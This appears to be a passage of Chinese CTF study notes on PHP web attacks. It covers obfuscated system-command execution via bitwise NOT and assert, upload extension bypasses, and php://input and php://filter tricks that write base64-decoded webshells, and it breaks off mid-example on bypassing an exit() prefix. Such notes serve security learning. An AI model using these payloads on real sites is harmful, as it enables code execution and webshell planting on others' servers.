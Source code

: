 ```php
echo urlencode(~"ls");  // %93%8C

$ass = "assert";
$a = ~"system";
$b = ~"ls";

$ass((~$a)(~($b)));
```

---

#### 1.2.4 后缀绕过

- 1. **使用另类文件名**

```
php3
php5
phtml
```

- 2.  **利用系统特性**

```
windows下: filename.php.
linux下: filename.php/.
```

- 3. **解析漏洞**

#### 1.2.5 file_put_contents 的坑

`file_put_contents`碰到不认识的协议时, 例如`fdsja://var//www//html`时, 会将协议内容当做文件读入

#### 1.2.6 php 整数溢出的利用

- 1. **数组溢出**

当 php 数组的键值大于`2^32 - 1`时, 通过该键值获取的值均为 0

---

### 1.3 PHP 伪协议

1. PHP://input: 可以访问请求的原始数据的只读流。用法:

- 配合 file_get_contents("php://input")使用可以将输入赋值;
- 利用文件包含漏洞写入任意代码

2. PHP://filter: 过滤器，可以对原始数据进行编码或解码，或者读取文件。用法：

- `php://filter:/<action>:<name>`

| 名称                      | 描述                                                                   |
| ------------------------- | ---------------------------------------------------------------------- |
| resource=<要过滤的数据流> | 这个参数是必须的。它指定了你要筛选过滤的数据流。                       |
| read=<读链的筛选列表>     | 该参数可选。可以设定一个或多个过滤器名称，以管道符(\|)分隔             |
| write=<写链的筛选列表>    | 该参数可选。可以设定一个或多个过滤器名称，以管道符(\|)分隔             |
| <；两个链的筛选列表>      | 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。 |

例如：
`php://filter/write=convert.base64-decode/resource=shell.php`
`php://filter/write=convert.base64-decode/resource=php://input`

3. 利用伪协议可以绕过`<?php exit(); ?>`
   例如有如下 PHP 代码:

```php
$content = '<?php exit(); ?>'.$_GET['code'];
```